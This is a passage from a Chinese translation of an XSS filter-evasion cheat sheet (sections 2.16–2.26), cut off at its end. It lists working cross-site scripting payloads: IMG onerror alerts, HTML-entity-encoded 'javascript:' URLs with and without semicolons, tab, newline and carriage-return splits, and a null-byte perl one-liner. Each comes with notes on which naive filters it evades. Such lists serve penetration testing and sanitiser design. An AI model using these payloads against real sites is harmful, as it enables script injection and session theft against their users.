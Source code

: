 2.16.    通过error事件触发alert
<IMG SRC=/ onerror=”alert(String.fromCharCode(88,83,83))”></img>

2.17.    对IMG标签中onerror属性进行编码
<img src=x onerror=”&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041″>

2.18.    十进制HTML字符实体编码
所有在IMG标签里直接使用javascript:形式的XSS示例无法在Firefox或Netscape8.1以上浏览器（使用Gecko渲染引擎）运行。

<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;

&#39;&#88;&#83;&#83;&#39;&#41;>

2.19.    不带分号的十进制HTML字符实体编码
这对于绕过对“&#XX;”形式的XSS过滤非常有用，因为大多数人不知道最长可使用7位数字。这同样对例如$tmp_string =~s/.*\&#(\d+);.*/$1/;形式的过滤器有效，这种过滤器是错误的认为HTML字符实体编码需要用分号结尾（无意中发现的）：

<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&

#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>

2.20.    不带分号的十六进制HTML字符实体编码
这是有效绕过例如$tmp_string =~ s/.*\&#(\d+);.*/$1/;过滤器的方法。这种过滤器错误的认为#号后会跟着数字（十六进制HTML字符实体编码并非如此）

<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>

2.21.    内嵌TAB
使用TAB来分开XSS攻击代码：

<IMG SRC=”jav ascript:alert(‘XSS’);”>

2.22.    内嵌编码后TAB
使用编码后的TAB来分开XSS攻击代码：

<IMG SRC=”jav&#x09;ascript:alert(‘XSS’);”>

2.23.    内嵌换行分隔XSS攻击代码
一些网站声称09到13（十进制）的HTML实体字符都可以实现这种攻击，这是不正确的。只有09（TAB），10（换行）和13（回车）有效。查看ASCII字符表获取更多细节。下面几个XSS示例介绍了这些向量。

<IMG SRC=”jav&#x0A;ascript:alert(‘XSS’);”>

2.24.    内嵌回车分隔XSS攻击代码
注意：上面使用了比实际需要长的字符串是因为0可以忽略。经常可以遇到过滤器解码十六进制和十进制编码时认为只有2到3位字符。实际规则是1至7位字符：

<IMG SRC=”jav&#x0D;ascript:alert(‘XSS’);”>

2.25.    使用空字符分隔JavaScript指令
空字符同样可以作为XSS攻击向量，但和上面有所区别，你需要使用一些例如Burp工具或在URL字符串里使用%00，亦或你想使用VIM编写自己的注入工具（^V^@会生成空字符），还可以通过程序生成它到一个文本文件。老版本的Opera浏览器（例如Windows版的7.11）还会受另一个字符173（软连字符）的影响。但是空字符%00更加有用并且能帮助绕过真实世界里的过滤器，例如这个例子里的变形：

perl -e ‘print “<IMG SRC=java\0script:alert(\”XSS\”)>”;’ > out

2.26.    利用IMG标签中JavaScript指令前的空格和元字符
如果过滤器不计算”javascript:”前的空格，这是正确的，因为它们不会被解析，但这点非常有用。因为这会造成错误的假设，就是引号和”javascript:”字样间不能有任何字符。实际情况是你可以插入任何十进制的1至32号字符：
